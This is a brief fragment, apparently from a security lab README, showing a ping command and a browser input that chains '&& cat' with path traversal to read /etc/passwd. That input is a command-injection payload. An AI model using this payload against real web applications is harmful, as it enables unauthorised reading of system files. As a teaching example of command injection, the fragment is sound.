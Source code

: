         ![ping from command line](/Images/ping-8-8-8-8-etc-hosts.PNG)  

      - From the Web-Browser  
      `8.8.8.8 && cat ../../../../../etc/passwd`